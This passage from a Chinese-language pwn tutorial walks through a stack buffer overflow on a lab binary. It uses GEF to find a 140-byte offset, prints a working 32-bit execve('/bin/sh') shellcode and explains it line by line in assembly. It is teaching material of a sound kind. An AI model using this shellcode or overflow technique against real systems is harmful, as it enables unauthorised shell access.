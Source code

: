```shell
[!] Cannot access memory at address 0x6261616b
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "level1", stopped, reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern search 0x6261616b
[+] Searching '0x6261616b'
[+] Found at offset 140 (little-endian search) likely
```
gef的输出内容虽然比较多，但是非常方便具体，而具体怎么有用还需各位看官自己体会。

### 构建payload

我们先从shellcode构建payload。而何为shellcod？顾名思义，能让你获得shell的code就是shellcode啦！那么我们应该如何构造shellcode呢？目前而言，我们能够控制的内容只有140个字符的输入以及一个返回地址，那么我们则希望让程序能够**ret**到我们能够控制的输入上。输入的字符串在内存中是可以被当作指令来执行的，因此我们希望控制输入的内容能够被执行。而获得shellcode的方式中很流行的便是**system("/bin/sh")**函数。但这是我们下一步进行ret2libc攻击的的目标。这里我们先使用文章中给出的shellcode：
```shellcode
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
文章中并没有介绍这货到底干了什么，我们在此处简要的介绍一下。其“翻译”成汇编代码之后其实是长这样子的：
```assembly
    xor eax, eax    ; reseting the register
    push eax    ; pushing null terminator
    push 0x68732f2f ; push /bin//sh
    push 0x6e69622f
    mov ebx, esp    ; ebx = /bin//sh
    push eax
    mov edx, esp    ; envp = 0
    push ebx
    mov ecx, esp    ; argv = [filename,0]
    mov al, 11  ; syscall 12 (execve)
    int 0x80    ; syscall
    ; source:http://www.expku.com/shellcode/8015.html
```

这样看上去是不是就舒多了？为了理解这段代码真正的含义，我们需要倒着去读。
**int 0x80**进行80号系统中断。我们并不需要理解中断到底是什么，它基本**等价于一次比较特殊的函数调用**，而linux仅仅使用了80一个软中断编号，这个中断所执行的函数叫做：执行一个syscall。而syscall的编号存放在**al**寄存器里面，即eax的低16位。细心的同学可能会注意到在push时，每一次push进去的东西的内容实际上是反着的，这实际上是内存中的大小端存储方式导致的。在这里我们不去纠结这个细节，pwntools里面的函数能够帮我们轻松完成人类识别的内存内容到机器识别的内存内容的转换。

通过[这个网站](https://syscalls.kernelgrok.com)能够查到al位11的syscall是第12个，即sys_execve。那么我们再跟进这个函数，查到其源码如下：
```c
asmlinkage int sys_execve(struct pt_regs regs)
{
	int error;
	char * filename;
	filename = getname((char *) regs.ebx);
	error = PTR_ERR(filename);
	if (IS_ERR(filename))
		goto out;
	error = do_execve(filename, (char **) regs.ecx, (char **) regs.edx, &regs);
	if (error == 0)
		current->ptrace &= ~PT_DTRACE;
	putname(filename);
out:
	return error;
}
```
通过阅读shellcode的汇编代码，可以发现其将“/bin/sh”与一个EOF压栈，作为参数传递给了函数sys_execve，而这个函数的作用是执行一个名为filename的文件，即打开一个文件。也就是说我们的shellcode其实就是在通过中断调用sys_execve这个函数，让其帮我们打开/bin/sh程序而已。
